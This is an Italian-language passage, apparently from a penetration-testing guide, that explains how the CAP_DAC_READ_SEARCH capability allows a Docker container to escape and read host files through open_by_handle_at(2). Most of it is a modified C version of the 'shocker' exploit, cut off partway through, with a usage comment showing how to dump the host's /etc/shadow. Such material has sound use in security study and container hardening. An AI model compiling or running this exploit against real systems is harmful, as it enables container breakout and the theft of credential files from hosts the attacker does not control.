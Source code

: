 È possibile apprendere come funziona lo sfruttamento seguendo il link [https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3), ma in sintesi **CAP\_DAC\_READ\_SEARCH** non solo ci consente di attraversare il file system senza controlli di autorizzazione, ma rimuove esplicitamente anche qualsiasi controllo su _**open\_by\_handle\_at(2)**_ e **potrebbe consentire al nostro processo di accedere a file sensibili aperti da altri processi**.

L'exploit originale che sfrutta queste autorizzazioni per leggere file dall'host può essere trovato qui: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), di seguito è riportata una **versione modificata che consente di indicare il file da leggere come primo argomento e di salvarlo in un file**.
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};

void die(const char *msg)
{
perror(msg);
exit(errno);
}

void dump_handle(const struct my_file_handle *h)
{
fprintf(stderr,"[*] #=%d, %d, char nh[] = {", h->handle_bytes,
h->handle_type);
for (int i = 0; i < h->handle_bytes; ++i) {
fprintf(stderr,"0x%02x", h->f_handle[i]);
if ((i + 1) % 20 == 0)
fprintf(stderr,"\n");
if (i < h->handle_bytes - 1)
fprintf(stderr,", ");
}
fprintf(stderr,"};\n");
}

int find_handle(int bfd, const char *path, const struct my_file_handle *ih, struct my_file_handle
*oh)
{
int fd;
uint32_t ino = 0;
struct my_file_handle outh = {
.handle_bytes = 8,
.handle_type = 1
};
DIR *dir = NULL;
struct dirent *de = NULL;
```